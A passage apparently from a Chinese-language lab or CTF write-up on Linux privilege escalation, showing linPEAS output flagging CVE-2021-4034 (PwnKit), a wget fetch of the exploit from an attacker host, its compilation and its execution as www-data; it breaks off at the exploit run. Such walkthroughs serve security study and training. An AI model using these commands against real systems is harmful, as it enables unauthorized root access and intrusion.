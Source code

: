 我现在可以进行权限升级了。

## 利用后:权限提升

我将使用*LinEnum*([“rebootser”，n.d.](https://github.com/rebootuser/LinEnum) )和 *linPEAS* ( [Polop，n.d.](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) )找到一个漏洞向量，它将允许我获得系统的根权限。将它们上传到目标机器后，我运行它们并分析它们的输出。linPEAS 给出了一些有趣的输出:

```
[... snip ...][+] [CVE-2021-4034] PwnKitDetails: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main[... snip ...]
```

我对 *PwnKit* ( [Berardi，n.d.](https://github.com/berdav/CVE-2021-4034/) )有经验，所以决定尝试利用这个漏洞。我把它下载到了目标系统上，并获得了系统的超级用户权限:

```
**$ wget http://attacker.thm:8000/pwnkit.zip**
--[redacted]--  http://attacker.thm:8000/pwnkit.zip
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: 'pwnkit.zip'0K ......                                                100% 2.42M=0.003s[redacted] (2.42 MB/s) - 'pwnkit.zip' saved [6457/6457]**$ unzip pwnkit.zip**
Archive:  pwnkit.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
**$ cd CVE-2021-4034-main/**
**$ pwd**
/var/www/html/CVE-2021-4034-main
**$ make**
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
**$ id**
uid=33(www-data) gid=33(www-data) groups=33(www-data)
**$ ls**
GCONV_PATH=.
LICENSE
Makefile
README.md
cve-2021-4034
cve-2021-4034.c
cve-2021-4034.sh
dry-run
gconv-modules
pwnkit.c
pwnkit.so
**$ ./cve-2021-4034**
```